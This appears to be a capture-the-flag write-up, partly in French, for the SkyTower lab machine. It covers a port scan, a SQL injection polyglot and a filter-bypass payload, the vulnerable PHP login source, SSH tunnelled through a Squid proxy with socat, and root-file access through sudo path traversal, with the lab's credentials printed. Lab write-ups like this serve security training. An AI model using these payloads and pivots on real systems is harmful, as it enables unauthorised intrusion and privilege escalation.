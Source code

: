 # Skytower


Skytower is an intermediate level machine

What I learned:
+ SQLi simple filter
+ HTTP Proxying for ssh
+ ssh commands


## In brief

- Detect SQLi with ' or 5s delay polyglot
- Exploit SQLi with || and # 


## Nmap

````
nmap 192.168.56.1/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-19 06:00 GMT
Nmap scan report for 192.168.56.101
Host is up (0.00014s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
3128/tcp open     squid-http
````

## 80 : Login/password  SQLi

![skytower_login.jpg]

Detecter la sqli avec ' ou un polyglot
````
a/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
````

On devine que "SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT" sont filtrés
On utilise || à la place du OR 
````
a'   || 1=1;  #
````

On obtinet un login/pawwd ssh
Se logguer en ssh à travers le proxy HTTP via CONNECT  grace à socat 
Lancer une commande /bi/bash via ssh
Recupérer les access bdd dans la page php
Recupérer les credentials dans la bdd
sudo



cat /var/www/log*
<?php
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
if($db->connect_errno > 0){ die('Unable to connect to database [' . $db->connect_error . ']'); }

$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);

$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);
if(!$result)
    die('There was an error running the query [' . $db->error . ']');
if($result->num_rows==0)
    die('<br>Login Failed</br>');

$row = $result->fetch_assoc();

echo "<HTML>";
echo '
      <div style="height:100%; width:100%;background-image:url(\'background.jpg\');
                                background-size:100%;
                                background-position:50% 50%;
                                background-repeat:no-repeat;">
      <div style="
		  padding-right:8px;  
      	  	  padding-left:10px; 
		  padding-top: 10px;  
      		  padding-bottom: 10px;  
                  background-color:white;     
                  border-color: #000000;
                  border-width: 5px;
                  border-style: solid;
                  width: 400px;
                  height:430px;
                  position:absolute;
                  top:50%;
                  left:50%;
                  margin-top:-215px; /* this is half the height of your div*/  
                  margin-left:-200px;
                                ">
	';
echo "<br><strong><font size=4>Welcome ".$row["email"]."</font><br /> </br></strong>";
echo "As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account.  For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: ".explode("@",$row["email"])[0]."</strong><br><strong>Password: ".$row["password"]."</strong>";
echo " <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div>";
echo "</HTML>"

?>






Username: john
Password: hereisjohn

socat TCP-LISTEN:9999,reuseaddr,fork PROXY:192.168.1.84:127.0.0.1:22,proxyport=3128
ssh john@locahost -p 9999
exit en fin de .bashrc 

ssh john@127.0.0.1 -p 9999 /bin/bash



dump la bdd pour trouver les pswd de xx et sara 



sara même blague du exit ds .bashrc 





$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ sudo /bin/ls /accounts/../../root
flag.txt
sara@SkyTower:~$ sudo /bin/cat /accounts/../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower




